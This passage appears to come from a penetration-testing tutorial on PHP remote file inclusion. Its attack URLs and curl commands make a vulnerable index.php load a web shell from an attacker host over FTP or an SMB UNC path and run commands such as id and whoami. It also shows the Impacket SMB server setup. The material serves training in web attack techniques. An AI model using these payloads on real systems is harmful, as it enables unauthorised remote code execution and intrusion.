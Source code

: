```url
http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id
```

As we can see, this worked very similarly to our http attack, and the command was executed. By default, **PHP tries to authenticate as an anonymous user. If the server requires valid authentication, then the credentials can be specified in the URL**, as follows:

```bash
curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'


...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# SMB

If the vulnerable web application is **hosted on a Windows server (which we can tell from the server version in the HTTP response headers)**, then we do not need the allow_url_include setting to be enabled for RFI exploitation, as we can utilize the SMB protocol for the remote file inclusion.

This is because Windows treats files on remote SMB servers as normal files, which can be referenced directly with a UNC path.

We can spin up an SMB server using Impacket's smbserver.py, which allows anonymous authentication by default, as follows:

```bash
impacket-smbserver -smb2support share $(pwd)


Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Now, we can include our script by using a UNC path (e.g. \\<OUR_IP>\share\shell.php), and specify the command with (&cmd=whoami) as we did earlier:

```url
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```

As we can see, this attack works in including our remote script, and we do not need any non-default settings to be enabled. However, **we must note that this technique is more likely to work if we were on the same network, as accessing remote SMB servers over the internet may be disabled by default, depending on the Windows server configurations**.

<br>
<br>
<br>
<br>
